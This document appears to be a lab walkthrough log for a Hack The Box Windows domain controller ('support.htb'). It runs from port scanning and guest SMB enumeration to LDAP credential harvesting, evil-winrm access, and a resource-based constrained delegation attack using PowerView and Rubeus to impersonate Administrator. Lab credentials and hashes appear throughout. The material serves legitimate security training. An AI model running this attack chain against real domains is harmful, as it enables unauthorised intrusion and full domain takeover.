

Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-21 18:00:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
61413/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.009 days (since Mon Sep 21 13:50:19 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-09-21T18:02:03
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   335.22 ms 10.10.14.1
2   336.93 ms 10.129.141.87

NSE: Script Post-scanning.
Initiating NSE at 14:02
Completed NSE at 14:02, 0.00s elapsed
Initiating NSE at 14:02
Completed NSE at 14:02, 0.00s elapsed
Initiating NSE at 14:02
Completed NSE at 14:02, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 411.96 seconds

└─$ crackmapexec smb 10.129.141.87 -u '' -p '' --shares
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.129.141.87   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.87   445    DC               [+] support.htb\: 
SMB         10.129.141.87   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
                                                            

 crackmapexec smb 10.129.141.87 -u 'guest' -p '' --shares
SMB         10.129.141.87   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.141.87   445    DC               [+] support.htb\guest: 
SMB         10.129.141.87   445    DC               [+] Enumerated shares
SMB         10.129.141.87   445    DC               Share           Permissions     Remark
SMB         10.129.141.87   445    DC               -----           -----------     ------
SMB         10.129.141.87   445    DC               ADMIN$                          Remote Admin
SMB         10.129.141.87   445    DC               C$                              Default share
SMB         10.129.141.87   445    DC               IPC$            READ            Remote IPC
SMB         10.129.141.87   445    DC               NETLOGON                        Logon server share 
SMB         10.129.141.87   445    DC               support-tools   READ            support staff tools
SMB         10.129.141.87   445    DC               SYSVOL                          Logon server share 

smbclient //10.129.141.87/support-tools -N

inside support tools

plain password

nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

support.htb\ldap

nimux ldap 10.129.141.87 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb

result: 0 Success
                                                                                                                        
┌──(ajp㉿kali)-[~/codeplay/htb/machines/support]
└─$ ldapsearch -x -H ldap://10.129.141.87 \
  -D 'ldap@support.htb' \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b 'DC=support,DC=htb' \
  -s sub '(objectClass=*)' |  grep info                            
 y with information about license issuance, for the purpose of tracking and re
 298939 for more information.
info: 

support.htb

Ironside47pleasure40Watchful

evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'

 bloodhound-python -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.141.87 -c All

ms-DS-MachineAccountQuota

*Evil-WinRM* PS C:\Users\support\Documents> Get-ADDomain

AllowedDNSSuffixes                 : {}
ChildDomains                       : {}
ComputersContainer                 : CN=Computers,DC=support,DC=htb
DeletedObjectsContainer            : CN=Deleted Objects,DC=support,DC=htb
DistinguishedName                  : DC=support,DC=htb
DNSRoot                            : support.htb
DomainControllersContainer         : OU=Domain Controllers,DC=support,DC=htb
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-1677581083-3380853377-188903654
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=support,DC=htb
Forest                             : support.htb
InfrastructureMaster               : dc.support.htb
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb}
LostAndFoundContainer              : CN=LostAndFound,DC=support,DC=htb
ManagedBy                          :
Name                               : support
NetBIOSName                        : SUPPORT
ObjectClass                        : domainDNS
ObjectGUID                         : 553cd9a3-86c4-4d64-9e85-5146a98c868e
ParentDomain                       :
PDCEmulator                        : dc.support.htb
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=support,DC=htb
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {dc.support.htb}
RIDMaster                          : dc.support.htb
SubordinateReferences              : {DC=ForestDnsZones,DC=support,DC=htb, DC=DomainDnsZones,DC=support,DC=htb, CN=Configuration,DC=support,DC=htb}
SystemsContainer                   : CN=System,DC=support,DC=htb
UsersContainer                     : CN=Users,DC=support,DC=htb

*Evil-WinRM* PS C:\Users\support\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
SUPPORT\Shared Support Accounts            Group            S-1-5-21-1677581083-3380853377-188903654-1103 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

$RawBytes = Get-DomainComputer DC -Properties 'msds- allowedtoactonbehalfofotheridentity' | select -expand msds-
allowedtoactonbehalfofotheridentity

. ./PowerView.ps1

New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)

$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
$RawBytes, 0

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Calculate Password Hash(es)

[*] Input password             : Password123
[*] Input username             : FAKE-COMP01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake-comp01.support.htb
[*]       rc4_hmac             : 58A478135A93AC3BF058A5EA0E8FDB71
[*]       aes128_cts_hmac_sha1 : 06C1EABAD3A21C24DF384247BC85C540
[*]       aes256_cts_hmac_sha1 : FF7BA224B544AA97002B2BEE94EADBA7855EF81A1E05B7EB33D4BCD55807FF53
[*]       des_cbc_md5          : 5B045E854358687C

Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71
/impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/DC.support.htb /altservice:cifs /ptt